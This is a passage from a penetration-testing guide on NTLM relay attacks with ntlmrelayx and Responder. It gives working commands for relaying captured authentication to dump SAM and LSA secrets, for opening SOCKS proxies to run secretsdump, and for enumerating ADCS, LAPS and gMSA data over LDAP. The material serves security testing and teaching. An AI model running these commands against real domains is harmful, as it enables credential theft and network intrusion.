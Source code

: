{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../mitm-and-coerced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

Below are different use-cases of ntlmrelayx. The last "**+**" tab lists other interesting features that make this tool a must-have when attacking AD domains. It's important to know that many of the use-cases below can be combined.

{% tabs %}
{% tab title="Cred dump" %}
The following command will try to relay the authentication over SMB and attempt a remote [dump of the SAM & LSA secrets](../credentials/dumping/sam-and-lsa-secrets.md) from the target if the relayed victim has the right privileges.

At the time of this article update (12th Feb. 2022), [a pull request](https://github.com/SecureAuthCorp/impacket/pull/1253) adding LSA dump to the existing SAM dump is pending.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="SOCKS" %}
The following command will try to relay the authentication and open [SOCKS proxies](../../../systems-and-services/pivoting/socks-proxy.md).

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use some tools along with proxychains to operate attack through the relayed authenticated session. In this case, secretsdump can be used to dump hashes from the remote target's [SAM and LSA secrets](../credentials/dumping/sam-and-lsa-secrets.md).

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Enum" %}
The following command will run an enumeration of the Active Directory domain through the relayed authenticated session. The operation will create multiple `.html`, `.json` and `.grep` files. It will also gather lots of information regarding the domain users and groups, the computers, [ADCS](../ad-cs/), etc.

```bash
ntlmrelayx -t "ldap://domaincontroller" --dump-adcs --dump-laps --dump-gmsa
```
{% endtab %}

{% tab title="Creation" %}
The following command will abuse the default value (i.e. 10) of [`ms-DS-MachineAccountQuota`](../domain-settings/machineaccountquota.md) to create a domain machine account. The tester will then be able to use it for AD operations.
